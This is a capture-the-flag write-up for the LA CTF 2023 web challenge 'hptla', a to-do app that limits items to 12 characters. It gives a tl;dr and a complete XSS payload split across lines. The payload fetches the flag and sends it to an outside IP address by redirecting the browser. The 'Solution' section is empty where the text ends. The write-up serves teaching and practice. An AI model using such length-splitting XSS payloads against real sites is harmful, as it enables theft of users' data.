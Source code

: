 ```yaml
---
Title: hptla - LA CTF 2023
Date: 2023-02-15T00:00:00+05:30
Tags: [web, lactf23-writeups, ctf, writeup, xss]
Categories: [lactf23-writeups,All Writeups]
Authors: [Rohit]
---
```


#### tl;dr

- We can join the two lines either by adding a \` or starting a comment `/*` at the end of one line and closing it `*\` at the start of the next line
- We have to split the payload into 20 parts like that

Final payload 

```html
<img src='
'onerror='`
`;n=fetch;`
`;l=r=>{`
`;return/*
*/r.text();`
`;};`
`;p=q=>{s=/*
*/`http:`;`
`;s+=`//3`;`
`;s+=`4.9`;`
`;s+=`3.5`;`
`;window./*
*/location/*
*/=s+`6.144?
`+q;};`
`;f=`flag`;`
`;w=n(f)/*
*/.then(l)/*
*/.then(p);'
```


## Description

I made a new hyper-productive to-do list app that limits you to 12 characters per item so you can stop wasting time writing overly intricate to-do lists!

- **Author** : aplet123
- **Category** : Web
- **Points** : 487
- **Solves** : 27


## Solution
